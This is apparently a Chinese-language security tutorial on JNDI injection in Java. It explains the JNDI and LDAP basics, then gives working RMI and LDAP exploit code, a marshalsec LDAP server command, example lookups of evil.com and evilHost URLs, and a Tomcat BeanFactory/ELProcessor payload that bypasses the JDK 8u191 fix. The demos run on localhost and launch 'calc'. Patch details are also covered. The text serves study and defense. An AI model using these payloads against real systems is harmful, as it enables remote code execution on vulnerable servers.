# 0x01 What is JNDI

Java Naming and Directory Interface：Java命名与目录接口

标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口（SPI）的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使Java应用程序能和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。

（咋感觉有点像JDBC的设计方式）

**Naming Service 命名服务：**
把一个服务名称和对象或命名引用相关联。在一些命名服务系统中并不直接将对象进行存储，而是存储了对象的引用，引用包含了如何访问实际对象的信息，类似于指针。

- **Bindings**: 表示一个名称和对应对象的绑定关系，比如在文件系统中文件名绑定到对应的文件，在 DNS 中域名绑定到对应的 IP。
- **Context**: 上下文，一个上下文中对应着一组名称到对象的绑定关系，我们可以在指定上下文中查找名称对应的对象。比如在文件系统中，一个目录就是一个上下文，可以在该目录中查找文件，其中子目录也可以称为子上下文 (subcontext)。
- **References**: 当存在上述的特殊情况时，以引用的形式进行存储，可以理解为指针。引用中包含了获取实际对象所需的信息，甚至对象的实际状态。比如文件系统中实际根据名称打开的文件是一个整数 fd ，这就是一个引用，内核根据这个引用值去找到磁盘中的对应位置和读写偏移。

**Directory Service 目录服务：**
在命名基础上增加了属性（文件目录中每个文件和目录都有属性：如创建时间、读写执行权限）不仅可以根据名称去查找(**lookup**)对象(并获取其对应属性)，还可以根据属性值去搜索(**search**)对象。

应用通过JNDI与具体的目录服务进行交互。从设计上，JNDI 独立于具体的目录服务实现，设计出了应用范围宽泛的(也就是兼容性比较强大)，因此可以针对不同的目录服务提供统一的操作接口。



SPI 全称为 Service Provider Interface，即服务供应接口，主要作用是**为底层的具体的目录服务提供统一接口**，从而实现目录服务的可插拔式安装。在 JDK 中包含了下述内置的目录服务:

* RMI：Remote Method Invocation 远程方法调用
* LDAP：Lightweight  Directory Access Protocol 轻量级目录访问协议
* CORBA：Common Object Request Broker Architecture 通用对象请求代理架构

在 Java JDK 里面提供了5个包，提供给JNDI的功能实现，分别是：

- javax.naming：主要用于命名操作,包含了访问目录服务所需的类和接口，比如 Context、Bindings、References、lookup 等。
- javax.naming.directory：主要用于目录操作，它定义了DirContext接口和InitialDir- Context类；
- javax.naming.event：在命名目录服务器中请求事件通知；
- javax.naming.ldap：提供LDAP支持；
- javax.naming.spi：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过JNDI可以访问相关服务。

# 0x02 Common Class

## InitialContext类

> InitialContext() 
> 构建一个初始上下文。  
> InitialContext(boolean lazy) 
> 构造一个初始上下文，并选择不初始化它。  
> InitialContext(Hashtable<?,?> environment) 
> 使用提供的环境构建初始上下文。 

构建初始上下文，就是获取初始目录环境

> bind(Name name, Object obj) 
>     将名称绑定到对象。 
> list(String name) 
>     枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
> lookup(String name) 
>     检索命名对象。 
> rebind(String name, Object obj) 
>     将名称绑定到对象，覆盖任何现有绑定。 
> unbind(String name) 
>     取消绑定命名对象。 

## References类

在命名/目录系统外部找到的对象的引用

> Reference(String className)     
> 	为类名为“className”的对象构造一个新的引用。  
>
> Reference(String className, RefAddr addr)     
> 	为类名为“className”的对象和地址构造一个新引用。  
>
> Reference(String className, RefAddr addr, String factory, String factoryLocation)     
> 	为类名为“className”的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。
>
> Reference(String className, String factory, String factoryLocation)     
> 	为类名为“className”的对象以及对象工厂的类名和位置构造一个新引用。

> void add(int posn, RefAddr addr) 
>     将地址添加到索引posn的地址列表中。  
> void add(RefAddr addr) 
>     将地址添加到地址列表的末尾。  
> void clear() 
>     从此引用中删除所有地址。  
> RefAddr get(int posn) 
>     检索索引posn上的地址。  
> RefAddr get(String addrType) 
>     检索地址类型为“addrType”的第一个地址。  
> Enumeration<RefAddr> getAll() 
>     检索本参考文献中地址的列举。  
> String getClassName() 
>     检索引用引用的对象的类名。  
> String getFactoryClassLocation() 
>     检索此引用引用的对象的工厂位置。  
> String getFactoryClassName() 
>     检索此引用引用对象的工厂的类名。    
> Object remove(int posn) 
>     从地址列表中删除索引posn上的地址。  
> int size() 
>     检索此引用中的地址数。  
> String toString() 
>     生成此引用的字符串表示形式。  

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);
    }
}
```

> 查看到Reference,并没有实现Remote接口也没有继承 UnicastRemoteObject类，前面讲RMI的时候说过，将类注册到Registry需要实现Remote和继承UnicastRemoteObject类。这里并没有看到相关的代码，所以这里还需要调用ReferenceWrapper将他给封装一下。

## LDAP

Lightweight Directory Access Protocol：轻量目录访问协议

类似个数据库

1. 基于TCP/IP协议
2. 分成服务端/客户端：服务端存储数据，客户端与服务端连接进行操作
3. 相对于mysql的表型存储，不同的是LDAP使用**树型存储**

- dn：domain name用于唯一标识一个项，类似于MYSQL主键
  - dc: domain compose
  - ou：organization unit
  - uid

LDAP协议主要用于单点登录SSO(Single Sign on)

# 0x03 Way To Attack

为了在命名服务或目录服务中绑定`Java`对象，可以使用`Java`序列化来传输对象，但有时候不太合适，比如`Java`对象较大的情况。因此JNDI定义了命名引用(`Naming References`)，后面直接简称引用(`References`)。这样对象就可以通过绑定一个可以被命名管理器(`Naming Manager`)解码(`decodeObject`)并解析为原始对象的引用，间接地存储在命名或目录服务中。引用由`Reference`类来表示，它由地址(`RefAddress`)的有序列表和所引用对象的信息组成。而每个地址包含了如何构造对应的对象的信息，包括引用对象的`Java`类名，以及用于创建对象的`ObjectFactory`类的名称和位置。 `Reference`可以使用`ObjectFactory`来构造对象。当使用`lookup()`方法查找对象时，`Reference`将使用提供的`ObjectFactory`类的加载地址来加载`ObjectFactory`类，`ObjectFactory`类将构造出需要的对象。

所谓的 `JNDI` 注入就是控制 `lookup` 函数的参数，这样来使客户端访问恶意的 `RMI` 或者 `LDAP` 服务来加载恶意的对象，从而执行代码，完成利用 在 `JNDI` 服务中，通过绑定一个外部远程对象让客户端请求，从而使客户端恶意代码执行的方式就是利用 `Reference` 类实现的。`Reference` 类表示对存在于命名/目录系统以外的对象的引用。具体则是指如果远程获取 `RMI` 服务器上的对象为 `Reference` 类或者其子类时，则可以从其他服务器上加载 `class` 字节码文件来实例化 `Reference` 类常用属性：

> className 远程加载时所使用的类名
> classFactory 加载的 class 中需要实例化类的名称
> classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议

如：
```java
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );           
registry.bind("Exploit", new ReferenceWrapper(reference));
```

假如客户端使用RMI协议，lookup请求服务端bind的Exploit类

```java
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： `http://evilHost/Exploit.class` 获取构造对象实例，构造方法中的恶意代码就会被执行

## JNDI References 注入

JNDI中对象的传递有两种：

* 序列化
* 引用

对于引用，若客户端lookup()的内容可控，控制客户端去访问恶意的服务中心（rmi、ldap），获取恶意的引用，进而获取恶意远程服务器的恶意class文件进行执行



1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 **rmi://evil.com:1099/refObj**
2. 原先配置好的上下文环境 会因为动态环境转换而被指向 **rmi://evil.com:1099/**
3. 应用去 **rmi://evil.com:1099** 请求绑定对象 refObj，攻击者事先准备好的 RMI 服务会返回与名称 refObj 绑定的ReferenceWrapper 对象
4. 应用获取到 ReferenceWrapper 对象开始从本地 **CLASSPATH** 中搜索 EvilObject 类，如果不存在则会从恶意远程服务器上去尝试获取 **EvilObject.class**，即动态的去获取 `http://evil-cb.com/EvilObject.class`
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 **EvilObject.class**
6. 应用开始调用 **EvilObject** 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行

**防御**

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly 默认值被设置为 true。将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端JVM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u132、7u122、8u113之后：增加了 com.sun.jndi.rmi.object.trustURLCodebase 选项，默认为 false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了 com.sun.jndi.ldap.object.trustURLCodebase 选项，默认为 false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。



## JNDI-RMI

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:8080/";
        Registry r = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("calc", "calc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        r.bind("evil",referenceWrapper);
    }
}
```

Client：

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://127.0.0.1:1099/evil";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

calc.java编译为class文件，`python -m http.server 8080`起Web服务

```java
import java.io.IOException;

public class calc {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

启动服务端、客户端，触发客户端弹出计算器

****

> **注：Server的url端口后面一定要有斜线（`/`）！！！**
>
> 这里的恶意类calc.java实际上最好实现`javax.naming.spi.ObjectFactory`接口，并重写`getObjectInstance`方法，否则客户端请求得到字节码文件后，会抛出异常（可能就是因为calc.java没有实现ObjectFactory接口）

------

**Analysis**

在`initialContext.lookup(url);`处下断点

一路跟进lookup，到`RegistryContext#lookup`，



`RegistryImpl_Stub`去查找evil对应的对象，服务端返回`ReferenceWrapper_Stub`对象，接着调用`RegistryContext#decodeObject`去获取信息



获取到`Reference`，接着调用`NamingManager.getObjectInstance` => `getObjectFactoryFromReference`



尝试本地加载类，使用AppClassLoader加载，本地没有返回null

接着`ref.getFactoryClassLocation`获取远程类的地址，赋值给codebase



再用URLClassLoader加载





加载远程恶意类，进行初始化的类加载，执行静态代码块，至此弹出计算器

接着实例化该类并返回对象



因此恶意代码不仅可以写在静态代码块，写在构造器也可以。

------

**Patch**

JDK 6u132、7u122、8u113之后：增加了 `com.sun.jndi.rmi.object.trustURLCodebase` 选项，默认为 false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞。

在RegistryContext中，会判断 trustURLCodebase，默认为false



## JNDI-LDAP

`LDAP`服务中`lookup`方法中指定的远程地址使用的是`LDAP`协议，由攻击者控制`LDAP`服务端返回一个恶意`jndi Reference`对象，并且`LDAP`服务的`Reference`远程加载`Factory`类并不是使用`RMI Class Loader`机制，因此不受`trustURLCodebase`限制。

ldap的实现代码较多，这里使用工具`marshalsec`来启动LDAP服务

### marshalsec下载及使用

下载地址：https://github.com/mbechler/marshalsec

maven打包为jar包：`mvn clean package -DskipTests`

项目会多出一个target目录，进入可以看到生成的jar包

开启ldap服务：`java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099`

作用是将LDAP查询请求重定向到`http://127.0.0.1:8000/#calc`，calc为恶意代码编译得到的class文件

`python -m http.server 8000`下放calc.class

**注意：calc.java不要包含包名，否则在远程调用的时候会因为类名不正确而报错**

客户端：

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:8099/aaa";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

查询ldap的地址为：ldap://127.0.0.1:8099/aaa，后面的aaa是随便写的用于DN查找的字符



弹出计算器

------

**Analysis**

`LdapCtx#c_lookup` => decodeObject  ，解析得到Reference对象

接着调用`DirectoryManager#getObjectInstance`获取实例对象，剩下的和RMI类似

`getObjectFactoryFromReference` => loadClass => 本地AppClassLoader找不到 => URLClassLoader



同样这里没有对codebase进行限制



------

**Patch**

8u191之后进行了修补， loadClass方法中添加 trustURLCodebase 属性，所以不能远程加载了。

# 0x04 8u191的绕过

针对8u191的绕过大致两种途径

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

* 既然远程不能打，就找本地有没有可利用的类。服务端返回的Reference对象中包含本地存在的可利用Factory类，loadClass后，创建实例对象，调用其 getObjectInstance 方法。（该Factory类需要实现 **javax.naming.spi.ObjectFactory** 接口，还要重写其 getObjectInstance 方法）
* 通过LDAP的 javaSerializedData反序列化gadget。LDAP服务端除了支持JNDI Reference这种利用方式外，还支持直接返回一个序列化的对象。如果Java对象的javaSerializedData属性值不为空，则客户端的obj.decodeObject()方法就会对这个字段的内容进行反序列化。

## DEMO

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:8080/";
        Registry r = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Test", "Test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        r.bind("try",referenceWrapper);
    }
}
```

Client存在Factory

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Test implements ObjectFactory {
    static {
        System.out.println("Static Code");
    }
    public Test() {
        System.out.println("Non-Arg Constructor");
    }

    {
        System.out.println("Constructor Code");
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("getObjectInstance");
        return null;
    }
}
```

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://127.0.0.1:1099/try";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

上面说到Client会先尝试本地加载类，因此lookup请求后，加载并实例化了Test类

> Static Code
> Constructor Code
> Non-Arg Constructor
> getObjectInstance

## 本地Class利用

远程打不了，在本地查找可利用的类。

目前公开常用的利用方法是通过 **Tomcat** 的 **org.apache.naming.factory.BeanFactory** 工厂类去调用 **javax.el.ELProcessor#eval** 方法或 **groovy.lang.GroovyShell#evaluate** 方法

> org.apache.naming.factory.BeanFactory 在 getObjectInstance() 中会通过反射的方式实例化Reference所指向的Bean Class，并且能调用一些指定的方法

要使用 `javax.el.ELProcessor`，需要 `Tomcat 8+`或`SpringBoot 1.2.x+`

```xml
<dependency>
	<groupId>org.apache.tomcat</groupId>
	<artifactId>tomcat-dbcp</artifactId>
	<version>9.0.8</version>
</dependency>
<dependency>
	<groupId>org.apache.tomcat</groupId>
	<artifactId>tomcat-catalina</artifactId>
	<version>9.0.8</version>
</dependency>
<dependency>
	<groupId>org.apache.tomcat</groupId>
	<artifactId>tomcat-jasper</artifactId>
	<version>9.0.8</version>
</dependency>
```

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class Server {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        r.bind("evil",referenceWrapper);
        System.out.println("running");
    }
}
```

------

**Analysis**

`BeanFactory#getObjectInstance`传入的obj要为`ResourceRef`





resourceClass = javax.el.ELProcessor

factory  =  org.apache.naming.factory.BeanFactory

对于客户端，首先和前面分析的一样，跟到`getObjectFactoryFromReference`

进入`BeanFactory#getObjectInstance`



